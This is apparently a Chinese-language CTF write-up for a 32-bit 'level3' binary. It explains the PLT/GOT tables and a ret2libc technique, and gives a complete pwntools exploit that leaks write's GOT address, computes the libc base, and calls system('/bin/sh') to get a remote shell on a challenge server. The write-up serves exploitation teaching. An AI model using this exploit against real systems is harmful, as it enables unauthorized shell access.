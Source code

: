 使用ida打开之后，函数内部很简单的逻辑。可以看出在vulnerable_fuction函数内部的，rand函数存在漏洞，但是对程序内部进行查找，没有找到相关的system函数，也没有/bin/sh这个字符串。

![image-20210419201957664](https://s2.loli.net/2022/03/26/bMwWRVkPt93mTIr.png)

![image-20210419202004132](https://s2.loli.net/2022/03/26/ZcjBwfbdt38DSPC.png)

为了更好的用户体验和内存CPU的利用率，程序编译时会采用两种表进行辅助，一个为PLT表，一个为GOT表，PLT表可以称为内部函数表，GOT表为全局函数表（也可以说是动态函数表这是个人自称），这两个表是相对应的

PLT表中的每一项对应于GOT表中的每一项。

这里用了一个巧妙的方法，即先通过栈溢出，利用 *write* 函数将其本身在GOT表中的地址泄露出来，减去在 *libc_32.so* 中的偏移，得到基址，紧接着重新进入 *main* 函数，再次通过栈溢出，利用 *system* 函数完成get shell

| first stack |      | second stack |
| ----------- | ---- | ------------ |
| 0x88 * 'a'  |      | 0x88 * 'a'   |
| ebp         |      | ebp          |
| write@plt   |      | system_addr  |
| main_addr   |      | xxxx         |
| 1           |      | bin_sh_addr  |
| write@got   |      |              |
| 4           |      |              |

exp:

```
from pwn import *

context.log_level = 'debug'

conn = remote('111.198.29.45', 49214)
elf = ELF('./level3')
libc = ELF('./libc_32.so.6')

write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']

payload = 'A' * (0x88 + 4) 
payload += p32(write_plt) 
payload += p32(main_addr) 
payload += p32(1) + p32(write_got) + p32(4)

conn.sendlineafter('Input:\n', payload)
write_addr = u32(conn.recv()[:4])

libc_base = write_addr - libc.symbols['write']
print 'libc_base is', libc_base

sys_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search('/bin/sh').next()

payload = 'A' * (0x88 + 4) 
payload += p32(sys_addr) 
payload += '9527' 
payload += p32(bin_addr)

conn.sendline(payload)
conn.interactive()
```